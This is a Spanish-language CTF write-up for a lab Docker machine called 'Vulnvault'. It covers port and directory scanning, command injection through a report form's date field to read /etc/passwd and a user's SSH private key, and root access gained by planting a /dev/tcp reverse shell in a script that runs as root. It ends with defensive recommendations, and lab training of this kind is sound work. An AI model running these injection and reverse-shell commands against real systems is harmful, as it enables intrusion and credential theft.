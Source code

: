 # **Máquina: Vulnvault**

### **Dificultad:** Fácil

### 📝 **Descripción:**

**Vulnvault** es una máquina diseñada para poner a prueba nuestras habilidades básicas de pentesting web. En ella, exploraremos técnicas de fuzzing, bypass de validaciones de subida de archivos, ejecución de comandos remotos e inyecciones maliciosas dentro de una funcionalidad aparentemente inofensiva. Esta máquina es ideal para practicar análisis de servicios y escalada de privilegios en entornos tipo CTF.

### 🎯 **Objetivo:**

Obtener acceso root explotando vulnerabilidades presentes en el sitio web, ganando acceso como un usuario válido mediante SSH, y posteriormente escalando privilegios mediante el abuso de procesos ejecutados automáticamente como root.

![Logo](Imágenes/2025-05-17_23-29.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `vulnvault.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip vulnvault.zip
sudo bash auto_deploy.sh vulnvault.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

Entramos al servicio web alojado en [http://172.17.0.3/](http://172.17.0.3/), que es una página para generar reportes y permite subir archivos. Intentamos inicialmente ejecutar una reverse shell en PHP.

![Pagina](Imágenes/Capturas_4.png)

Realizamos fuzzing con Gobuster para descubrir rutas y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Rutas interesantes encontradas:

* `/index.php`
* `/upload.html`
* `/upload.php`
* `/old`

![Fuzzing](Imágenes/Capturas_5.png)

La ruta más llamativa fue `http://172.17.0.3/upload.php`, ya que muestra los archivos subidos. Aquí intentamos ejecutar nuestra reverse shell PHP.

![Ejecutar](Imágenes/Capturas_6.png)

Descargamos la shell desde [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), la copiamos en un archivo `nano revshell.php`, y la subimos a través del panel.

![php](Imágenes/Capturas_7.png)

---

![subida](Imágenes/Capturas_8.png)

Aunque el archivo se sube exitosamente, no se ejecuta al hacer clic, por lo que intentamos otra vía.

En `index.php`, al generar un reporte, se muestra la ruta del archivo generado, como `/var/www/html/reportes/reporte_1747547683.txt`, junto con una advertencia sobre comandos maliciosos. Esto sugiere una posible vulnerabilidad de inyección de comandos.

![Inyeccion](Imágenes/Capturas_9.png)

Realizamos pruebas ingresando comandos en el campo de **fecha** usando el separador `;`. Por ejemplo:

```bash
;cat /etc/passwd
```

Con esto logramos listar los usuarios del sistema y descubrimos la existencia del usuario `samara`.

![Usuarios](Imágenes/Capturas_10.png)

Luego investigamos el directorio personal con:

```bash
;ls -la /home/samara
```

Encontramos archivos protegidos, pero accedimos a su clave SSH privada con:

```bash
;cat /home/samara/.ssh/id_rsa
```

Copiamos la clave a nuestra máquina, guardándola como `id_rsa`.

![Usuarios](Imágenes/Capturas_11.png)

Cambiamos permisos y establecimos conexión SSH como el usuario `samara`:

```bash
chmod 700 id_rsa
ssh -i id_rsa samara@172.17.0.3
```

![Usuarios](Imágenes/Capturas_13.png)

---

### 🔐 Escalada de privilegios

Como el usuario `samara`, intentamos lo habitual:

```bash
sudo -l
find / -perm -4000 2>/dev/null
```

Pero no obtuvimos resultados útiles. Entonces ejecutamos `ps aux` para revisar procesos en ejecución, y descubrimos uno muy interesante:

```bash
/bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
```

Esto indica que el archivo `/usr/local/bin/echo.sh` se ejecuta en bucle **como root**, lo que nos da una vía para escalada.

Accedimos al directorio y listamos el contenido:

```bash
cd /usr/local/bin
ls
```

Intentamos editar el archivo con `nano`, pero falló por la variable `TERM`. Solucionamos el error así:

```bash
export TERM=xterm
nano echo.sh
```

Insertamos una reverse shell en el archivo:

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

![Usuarios](Imágenes/Capturas_14.png)

Guardamos y salimos. En nuestra máquina atacante ejecutamos:

```bash
sudo nc -lvnp 443
```

Y tras unos segundos, obtuvimos una shell como `root`.

![Usuarios](Imágenes/Capturas_15.png)

---
Perfecto, aquí tienes una **conclusión** y unas breves **recomendaciones finales** para completar tu informe:

---

## ✅ **Conclusión**

La máquina **Vulnvault** nos permitió practicar diferentes vectores de ataque, desde el reconocimiento y explotación de servicios web hasta el uso de técnicas de inyección de comandos. Logramos obtener acceso como el usuario `samara` a través de una clave SSH extraída mediante inyección, y finalmente escalamos privilegios explotando un script ejecutado automáticamente como root. Esta máquina refuerza conceptos clave del pentesting y demuestra la importancia de validar correctamente entradas del usuario y proteger scripts con permisos elevados.

---

## 🔐 **Recomendaciones**

* Nunca almacenes claves privadas sin protección en directorios accesibles.
* Valida y sanitiza todas las entradas del usuario, especialmente en formularios que interactúan con el sistema.
* Evita ejecutar scripts como root sin restricciones ni controles adecuados.
* Asegúrate de que las rutas de carga de archivos sean seguras y no permitan ejecución directa.

---

